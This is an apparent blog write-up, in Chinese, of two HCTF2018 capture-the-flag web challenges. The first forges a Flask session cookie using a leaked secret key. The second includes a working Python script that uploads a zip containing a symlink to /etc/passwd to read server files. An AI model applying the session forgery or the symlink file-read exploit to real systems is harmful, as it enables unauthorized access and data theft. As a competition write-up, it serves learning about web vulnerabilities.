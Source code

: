 ```yaml
---
title: "HCTF2018 WriteUp"
date: 2018-11-12 00:18:29
tags: [hctf, writeup]
---
```


![](https://i.loli.net/2019/03/08/5c82768fe4d67.jpg#center)  
和师傅们肝了两天, 最后排名 25, 看看一堆没做出来的题, 感到自己深深的菜... 



0x01 admin
----------

在改密码的地方有 hint,  
![](https://i.loli.net/2019/03/08/5c8276960e9a1.jpg#center)  

得到源码后第一个发现的是可能存在条件竞争, 题目里面是先将 `session` 里面的 `name` 给改了再去验证密码的  

![](https://i.loli.net/2019/03/08/5c82769adc533.jpg#center)  

但之后发现 `flask` 不是像 `php` 一样将 `session` 保存在服务端, 而是保存在 `cookies` 里面的, 所以这里其实是不存在条件竞争的. 最后发现其实 `SECRET_KEY` 已经给我们了, 完全可以伪造 `session`.  

![](https://i.loli.net/2019/03/08/5c82769e190bc.jpg#center)  

这里估计是怕太明显, `environ` 里面是没 `SECRET_KEY` 的 (看了其他的 WriteUp 其实就是出题人环境没配好 233), 所以直接用 `cjk123` 就可以了. 在 [github](https://github.com/noraj/flask-session-cookie-manager/stargazers) 上可以找到用 `SECRET_KEY` 来生成 `session` 的小工具, 先解码看看结构后改一下 `name` 就可以了. 最后把现在的换成生成的 `session` 访问 `index` 就可以 get flag 了, 不过这 flag... 是我们非预期解还是这个题目是中间没做完强行改了一下放出来的 0.0  

![](https://i.loli.net/2019/03/08/5c8276a0c91d9.jpg#center)

0x02 hide and seek
------------------

通过 `cookie` 可以看出来跟上一题一样是 `flask`, 题目这么强调 `zipfile`, 所以肯定跟这个有关, 在谷歌上搜到一个通过在里面加 `../../../file` 的文件来导致目录穿越的, 但是试了下并没有用. 最后还是师傅想到用软链试试, 结果正是如此, 可以通过软链来任意文件读取, 但比较麻烦的是不像 `php`, 直接在 `URL` 上就给你文件名, 我们得想办法把文件名给找到读出源码才能下一步. 这里写个 `python` 脚本来简化我们的工作

```python
import zipfile
import requests


z_info = zipfile.ZipInfo("symlink")
z_info.external_attr = 2717843456 # Magic Number. Meaning this is a symlink.
z_file = zipfile.ZipFile("test.zip", mode="w")
z_file.writestr(z_info, f"/etc/passwd")
z_file.close()

cookie = open("pysession").read()
sess = requests.session()
sess.cookies["session"] = cookie


files = {
    "the_file" : ("test.zip", open("test.zip", "rb"), "application/zip"),
}

res = sess.post("http://hideandseek.2018.hctf.io/upload", files=files)

if res.text:
    print(res.text)
```